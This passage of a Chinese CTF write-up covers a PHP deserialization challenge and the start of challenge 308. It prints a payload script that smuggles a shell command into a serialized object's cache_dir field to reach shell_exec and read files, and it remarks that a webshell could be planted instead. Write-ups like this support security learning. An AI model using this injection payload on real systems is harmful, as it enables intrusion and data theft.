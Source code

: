 Cache_dir可控：

![](https://img-blog.csdnimg.cn/20210413224410153.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
cache_dir可自定义 dao类中clearCache方法的参数，logout.php 再调用dao类 执行shell_exec

payload：
```php
<?php
class config{
	public $cache_dir = ';echo `cat /var/www/html/f*` > flag.txt;';  //也可以写马
}

class dao{
	private $config;
	public function __construct(){
		$this->config=new config();
	}
}
echo base64_encode(serialize(new dao()));
?>
```
![](https://img-blog.csdnimg.cn/20210413225458894.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
访问地址：
URL/controller/flag.txt

![](https://img-blog.csdnimg.cn/20210413225651109.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# 308
过滤只能为字母：

![](https://img-blog.csdnimg.cn/20210413225735810.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


Wp说在fun.php发现ssrf利用点：

![](https://img-blog.csdnimg.cn/20210413225744518.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
dao.php调用

![](https://img-blog.csdnimg.cn/20210413225752361.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
index.php调用方法

![](https://img-blog.csdnimg.cn/20210413225800548.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
config.php

![](https://img-blog.csdnimg.cn/20210413225811866.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

与上题差不多

index.php -> config.php -> dao.php
